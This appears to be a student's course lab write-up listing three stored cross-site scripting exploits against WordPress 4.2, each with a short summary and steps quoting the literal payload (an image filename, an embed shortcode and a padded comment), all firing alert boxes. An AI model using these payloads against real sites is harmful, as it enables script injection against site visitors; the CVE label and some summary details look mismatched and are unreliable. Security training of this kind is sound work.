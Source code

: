 # CodePath Week 7
Week 7 Word Press Exploits

Exploit 1: Cross-Site Scripting (XSS)

Summary:
CVE-2017-0961
Vulnerability type : XSS
Tested Version: 4.2
Fixed Version: 4.2.1
Uploading a large payload file that exceeds the limit results in an error.

Steps:
xss<img src=x onerror=alert(1)>.png
upload to new media on wpdistillery


Exploit 2: Authenticated XSS in youtube link

Summary:
Vulnerability Type: XSS
Test Version: 4.2
Fixed Version: 4.2.1

Steps:
Must be a registered user with acess to edit/create posts
In creating a post, upload the following script:
[embed src='https://youtube.com/embed/123\x3csvg onload=alert(1)\x3e'][/embed]
After clicking update, click view post- you will get the XSS alert


Exploit 3: Unauthenticated XSS in comment

Summary:

Vulnerability Type: XSS
Test Version: 4.2
Fixed Version: 4.2.1

Steps:
Comment on a post with the following script
<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute; left:0; top:0; width:5000px; height:5000px  <insert 64kb of random data>'></a>





